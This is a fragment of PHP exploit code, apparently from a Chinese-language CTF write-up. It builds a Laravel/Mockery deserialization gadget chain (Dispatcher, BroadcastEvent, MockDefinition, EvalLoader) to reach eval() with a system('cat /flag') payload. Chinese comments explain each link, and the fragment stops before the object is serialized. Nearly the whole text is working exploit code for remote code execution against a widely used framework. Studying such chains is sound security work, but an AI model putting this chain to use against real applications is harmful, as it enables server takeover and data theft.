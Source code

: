 ```

namespace Illuminate\Bus`{`
    class Dispatcher
    `{`

        public function __construct($queueResolver)
        `{`
            //queueResolver是后续call_user_func_array()的第一个参数，这里我们需要调用静态类方法执行eval
            $this-&gt;queueResolver = $queueResolver;
        `}`
        //$command需要实现ShouldQueue接口时commandShouldBeQueued方法才会返回真，这里使用BroadcastEvent类
        public function dispatch($command)
        `{`
            //需要使三目运算符的判断式为真，才能调用dispatchToQueue方法进而调用call_user_func_array
            return $this-&gt;queueResolver &amp;&amp; $this-&gt;commandShouldBeQueued($command)
                        ? $this-&gt;dispatchToQueue($command)
                        : $this-&gt;dispatchNow($command);
        `}`
    `}`
`}`

namespace Mockery\Loader`{`
    use Mockery\Generator\MockDefinition;
    class EvalLoader
    `{`
        //这里$definition需要实现MockDefinition接口，因此选取的是MockDefinition类
        public function load(MockDefinition $definition)`{``}`
    `}`
`}`

namespace Mockery\Generator`{`
    class MockDefinition
    `{`
        protected $config;
        protected $code;
        //这里$this-&gt;config设置为MockConfiguration类，其getname方法和参数可控能够得到任意字符作为getClassName()的返回值
        public function __construct($config, $code)
        `{`
            $this-&gt;config = $config;
            //$this-&gt;code 作为EvalLoader类中load方法中eval()的拼接参数，也就是我们需要实现命令执行的地方
            $this-&gt;code = $code;    
        `}`        
    `}`
`}`
namespace Mockery\Generator`{`
    class MockConfiguration`{`
        protected $name;
        public function __construct($name)
        `{`
            $this-&gt;name = $name;   
        `}`
    `}`
`}`

namespace`{`
    //先使得$this-&gt;name返回crispr,这样调用class_exists()时没有crispr类肯定会返回false
    $mockconfiguration = new Mockery\Generator\MockConfiguration("crispr");
    //使得$this-&gt;config为MockConfiguration类后调用getname方法,后面为eval的拼接参数，这里写个一句话
    $mockdefinition = new \Mockery\Generator\MockDefinition($mockconfiguration,'&lt;?php echo system("cat /flag");?&gt;');
    $evalloader = new \Mockery\Loader\EvalLoader();
    //MockDefinition类实现了MockDefinition接口作为load方法的参数
    $broadcastevent = new Illuminate\Broadcasting\BroadcastEvent($mockdefinition);
```